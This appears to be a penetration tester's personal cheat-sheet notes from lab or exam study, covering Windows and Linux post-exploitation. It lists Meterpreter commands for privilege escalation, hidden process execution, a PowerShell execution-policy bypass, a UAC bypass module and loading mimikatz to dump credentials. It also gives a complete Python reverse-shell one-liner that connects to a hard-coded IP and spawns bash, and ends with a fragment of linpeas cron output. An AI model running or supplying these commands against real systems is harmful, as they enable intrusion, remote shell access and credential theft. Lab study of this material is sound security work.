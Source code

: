 ### Post Exploit 
- idletime (meterpreter) - check that user's idletme
- shell - switch to shell
  - whoami /priv 
- getuid - check user *from meterpreter*
- getsystem - elevate privileges from meterpreter
- ps 
  - then migrate $PID (check to see if other users are running it)
  - execute -H -f notepad
    - -H = hidden, -f = program
- Check Integrity Level of current process:
  - shell
  - powershell -ep bypass
  - Import-Module NtObjectManager
  - Get-NtTokenIntegrityLevel 
    - If that doesnt work then move on, if it does:
      - search UAC - search for UAC bypass modules
      - use exploit/windows/local/bypassuac_sdclt
        - set SESSION $sessionNumber
- From meterpreter:
  - load kiwi (loads mimikatz)
  - help - shows all commands, including creds_msv

## Misc Notes

### Remember
1. you can mkdir a temp directory and write to it
2. One liners if you can't load a module and then run it: `powershell -ep bypass ./PowerUp.ps1` 

### to add to a file without nano 
cat <<'EOT'> file.name
> text
> text
> EOT
(the EOT ends the file)

### apparently secret python reverse shell
`python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.235",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")"`
- same as Python #2 from rev shells, but with the interior "'s escaped with \'s

### Cron jobs - linpeas

```
╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs                                                                                                                                                     
/usr/bin/crontab                                                                                                                                                                                                                           
incrontab Not Found
-rw-r--r-- 1 root root   74 Oct 31  2019 /etc/cron.deny                                                                                                                                                                                    
-rw-r--r-- 1 root root   66 Jan 15  2021 /etc/crontab.bak

/etc/cron.d:
total 12
drwxr-xr-x  2 root root 4096 Nov  5  2020 .
drwxr-xr-x 51 root root 4096 Jan 15  2021 ..
```